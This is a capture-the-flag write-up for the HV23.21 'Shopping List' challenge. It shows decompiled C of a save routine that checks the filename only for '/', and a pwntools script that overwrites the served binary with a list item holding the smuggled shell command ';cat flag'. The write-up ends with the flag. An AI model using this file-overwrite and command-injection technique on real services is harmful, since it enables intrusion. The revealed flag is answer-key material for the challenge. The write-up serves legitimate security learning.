

# [HV23.21] Shopping List

## Introduction

Difficulty: Hard<br>
Author: Fabi_07

Santa still needs to buy some gifts, but he tends to forget things easily. That's why he created his own application: A shopping list with state-of-the-art hacker protection.

## Solution

Well, I was very happy to see a solve after 20 Minutes, this meant that there was an unintended solution. After looking for way too long for this little mishap, I noticed something peculiar inside the `save` functionality of the shopping list.

```c
case 's':
    if ( itemCount )
    {
        s = (char *)getstr("Filename:");
        if ( strchr(s, '/') )
        {
          puts("hacker detected, you will be reported to the admin.");
          streama = fopen("flag", "w");
          fwrite("I told you not to overstep any boundaries...", 1uLL, 44uLL, streama);
          fclose(streama);
        }
        stream = fopen(s, "w");
        fwrite("# Shopping list\n", 1uLL, 0x10uLL, stream);
        for ( ii = 0; ii <= 99; ++ii )
        {
          if ( *(_QWORD *)(8LL * ii + items) )
            fprintf(
              stream,
              " - %ldx %s\n",
              *(_QWORD *)(*(_QWORD *)(8LL * ii + items) + 16LL),
              **(const char ***)(8LL * ii + items));
        }
        fclose(stream);
        printf("Created File %s.\n\n", s);
        free(s);
    }
    else
    {
        puts("\nPlease add a item to your shopping list first.\n");
    }
    break;
```

It only checks for `/` in the filename, but not for it's own name, we know it's getting hosted with `socat`, so if we just overwrite the binary with our own bash commands, we can do whatever we want.

```py
from pwn import *

rem = remote('152.96.15.6', 1337)
rem.sendlineafter(b' > ', b'a')
rem.sendlineafter(b' > ', b';cat flag')
rem.sendlineafter(b' > ', b'1337')
rem.sendlineafter(b' > ', b's')
rem.sendlineafter(b' > ', b'vuln')
rem.sendlineafter(b' > ', b'q')

rem = remote('152.96.15.6', 1337)
rem.interactive()
```

The above script creates a shopping list looking like this:

```bash
# Shopping list
 - 1337x ;cat flag
```

This oddly enough works to give us the flag



Flag: `HV23{heap4the_win}`